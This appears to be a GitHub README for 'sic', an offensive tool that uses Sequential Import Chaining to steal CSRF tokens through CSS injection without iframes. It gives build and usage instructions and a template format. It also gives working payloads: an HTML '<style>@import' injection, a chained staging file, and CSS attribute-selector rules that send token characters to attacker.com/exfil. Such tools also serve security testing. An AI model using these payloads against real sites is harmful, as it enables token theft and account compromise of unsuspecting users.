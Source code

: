 # Sequential Import Chaining

Typical CSS injection requires an attacker to load the context a number of times to exfiltrate sensitive tokens from a page. Usually the vector for this is via iframing which isn't always possible, especially if the target is using `x-frame-options: deny` or `x-frame-options: sameorigin`. This can be further complicated if the victim needs to interact with the target to trigger the injection (perhaps due to dynamic behavior on the page).

Sequential import chaining is a technique that enable a quicker, easier, token exfiltration even in the cases where framing isn't possible or the dynamic context is only occasionally realized.

### Blog Post
I wrote a blog post on this. Read about it [here!](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)

## Prerequisites for Attack

This attack only works if the attacker at least one of these: 

* Script tag injection (HTML injection, for example)
* Control of CSS at the top of a style tag.

The first case is probably more likely and will work even if filtered through vanilla DOM Purify.

## Building

1. Install RustUp (https://rustup.rs/ - `curl https://sh.rustup.rs -sSf | sh`)
2. Install the nightly (`rustup install nightly`)
3. Default to nightly (`rustup default nightly`)
4. Build with cargo (`cargo build --release`)

You will find the built binary at `./target/release/sic`

## Usage
`sic` has documentation on the available flags when calling `sic -h` but the following is information for general usage.

* `-p` will set the lower port that `sic` will operate on. By default this is 3000. `sic` will also listen on port `port + 1` (by default 3001) to circumvent a technical limitation in most browsers regarding open connection limits.
* `--ph` sets the hostname that the "polling host" will operate on. This can either be the lower or higher operating port, though it's traditionally the lower port. Defaults to `http://localhost:3000`. This _must_ be different than `--ch`
* `--ch` similar to `--ph` but this sets the "callback host" where tokens are sent. Defaults to `http://localhost:3001`. This _must_ be different than `--ph`.
* `-t` specifies the template file used to generate the token exfiltration payloads.
* `--charset` specifies the set of characters that may exist in the target token. Defaults to alphanumerics (`abc...890`).

A standard usage of this tool may look like the following:
```
./sic -p 3000 --ph "http://localhost:3000" --ch "http://localhost:3001" -t my_template_file
```

And the HTML injection payload you might use would look like:
```
<style>@import url(http://localhost:3000/staging?len=32);</style>
```

The `len` parameter specifies how long the token is. This is necessary for `sic` to generate the appropriate number of `/polling` responses. If unknown, it's safe to use a value higher than the total number of chars in the token.

### Advanced Logs
`sic` will print minimal logs whenever it receives any token information; however, if you want more detailed information advanced logging is supported through an environment variable `RUST_LOG`.

```
RUST_LOG=info ./sic -t my_template_file
```

### Templates
The templating system is very straightforward for `sic`. There are two actual templates (probably better understood as 'placeholders'):
* `{{:token:}}` - This is the current token that we're attempting to test for. This would be the `xyz` in `input[name=csrf][value^=xyz]{...}`
* `{{:callback:}}` - This is the address that you want the browser to reach out to when a token is determined. This will be the callback host (`--ch`). All the information `sic` needs to understand what happened client-side will be in this url.

An example template file might look like this:
```
input[name=csrf][value^={{:token:}}] { background: url({{:callback:}}); }
```

`sic` will automatically generate all of the payloads required for your attack and make sure it's pointing to the right callback urls.

### HTTPS
HTTPS is not directly support via `sic`; however, it's possible to use a tool like nginx to set up a reverse proxy in front of `sic`. An example configuration is found in the [example nginx config](/example_nginx.conf) file thoughtfully crafted up by [nbk_2000](https://twitter.com/nbk_2000).

After nginx is configured, you would run `sic` using a command similar to the following:

```
./sic -p 3000 --ph "https://a.attacker.com" --ch "https://b.attacker.com" -t template_file
```

Note that the ports on `--ph` and `--ch` match up with the ports nginx is serving and not `sic`. 

## Technique Description

For a better story and additional information, please see my blog post on [Sequential Import Chaining here](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b).

The idea behind CSS injection token exfiltration is simple: You need the browser to evaluate your malicious css once, send an outbound request with the next learned token, and repeat. 

Obviously the "repeat" part is normally done using a full frame reload (iframing, or tabs... blah).

However, we don't actually need to reload the frame to get the browser to reevaluate *new* CSS.

Sequential Import Chaining uses 3 easy steps to trick some browser into performing multiple evaluations:

1. Inject an `@import` rule to the staging payload 
2. Staging payload uses `@import` to begin long-polling for malicious payloads
3. Payloads cause browser to call out using `background-img: url(...)` causing the next long-polled `@import` rule to be generated and returned to the browser.

## Example

Here's an example of what these might look like:

### Payload
`<style>@import url(http://attacker.com/staging?len=32);</style>`

### Staging
```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31); // in the case of a 32 char long token
```

### Long-polled Payload (length 0)
This is a unique, configurable template in `sic` because this part is very context specific to the vulnerable application.
```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }
```

After the browser calls out to `http://attacker.com/exfil?t=<first char of token>`, `sic` records the token, generate the next long-polled payload, and return a response for `http://attacaker.com/lp?len=1`. 

### Long-polled Payload (length 1 - given `s` as first char)
```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }
```

This repeats until no more long-polled connections are open.

----

Shoutout to the following hackers for help in one way or another.

* [0xacb](https://twitter.com/0xACB)
* [cache-money](https://twitter.com/itscachemoney)
* [Shubs](https://twitter.com/infosec_au)
* [Sean](https://twitter.com/seanyeoh)
* [Ruby](https://twitter.com/_ruby)
* [vila](https://twitter.com/cgvwzq)

